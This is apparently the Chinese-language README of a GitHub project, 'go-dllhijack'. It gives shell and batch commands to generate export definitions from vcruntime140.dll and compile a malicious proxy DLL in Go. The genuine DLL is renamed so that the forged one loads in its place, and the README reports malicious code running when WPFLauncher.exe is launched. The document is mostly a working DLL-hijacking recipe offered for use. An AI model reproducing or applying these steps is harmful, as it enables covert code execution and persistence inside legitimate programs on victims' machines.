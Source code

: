 # go-dllhijack
##基于go的简单劫持方法
#使用
###在使用前请确保你系统上有GoLang python MinGW

##以vcruntime140.dll为例
```sh
git clone https://github.com/famei/go-dllhijack
pip install pefile
python def.py vcruntime140.dll
```
#会得到以下输出


###将输出的内容复制到win.def内
###新建一个bat脚本
```bat
dlltool --output-exp win.exp --input-def win.def
set GOOS=windows
set GOARCH=386
set CGO_ENABLED=1
go build -buildmode=c-shared -o vcruntime140.dll -ldflags="-extldflags=-Wl,{文件夹绝对路径}\win.exp -s -w"
```
###会得到一个vcruntime140.dll文件
将正常的vcruntime140.dll重命名为_vcruntime140.dll
将恶意的vcruntime140.dll和_vcruntime140.dl放在同一目录

这里用WPFLauncher.exe作为演示
双击WPFLauncher.exe程序正常运行 恶意代码被成功执行



